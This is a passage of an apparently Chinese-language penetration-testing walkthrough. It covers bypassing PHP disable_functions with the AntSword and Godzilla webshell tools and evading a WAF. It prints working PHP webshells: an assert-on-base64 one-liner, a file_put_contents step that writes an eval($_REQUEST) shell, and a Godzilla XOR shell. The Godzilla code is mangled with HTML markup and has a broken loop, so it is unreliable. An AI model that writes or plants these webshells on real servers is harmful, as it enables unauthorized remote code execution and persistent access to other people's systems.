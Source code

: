 本来到这里就结束了。然后连接.antproxy.php 这个文件， 密码不变。就能够成功连接上。不知道为什么， 我的蚁剑不成功。返回是空， 有知道的大佬， 求知道下

### 10，由于蚁剑没成功。找了资料说哥斯拉也有绕过disable_function 。于是哥斯拉安排上。成功获得权限www

<br/> 一定要注意FPM/FCGI的地址不能写错<br/> /tmp/php-cgi-56.sock

##### 备注：中间还有一个步骤。那就是， 哥斯拉生产的php小马第一个有base64流量特征，所以穿不进去， 被waf拦截。其他2个php小马没有流量特征是可以用的。但是， 里面有eval函数。于是。我用file_put_contents 写文件， 直接把哥斯拉的小马写进去了。具体参考如下

<br/> 一句话：

```
&lt;?php

$a=base64_decode($_REQUEST['test']);

echo $a;

assert($a);
```

poc:

```
$a = "好好学习，天天向上；福如东海，寿比南山";

$b = file_put_contents('test.txt', $a);

$b = file_put_contents('test.txt','好好学习，天天向上；福如东海，寿比南山');



file_put_contents('shell.php','&lt;?php eval($_REQUEST[8]);');







//哥斯拉xor一句话

file_put_contents('xor.php','&lt;?php

&lt;span class="label label-primary"&gt;@session_start();#CTL{n}&lt;/span&gt;&lt;span&gt;@set_time_limit(0);#CTL{n}&lt;/span&gt;&lt;span&gt;@error_reporting(0);#CTL{n}function&lt;/span&gt; encode($D,$K){

for($i=0;$i@run($data),$key);#CTL{n}&lt;/span&gt; }else{

if (strpos($data,"getBasicsInfo")!==false){

$_SESSION[$payloadName]=encode($data,$key);

}

}

}

');
```
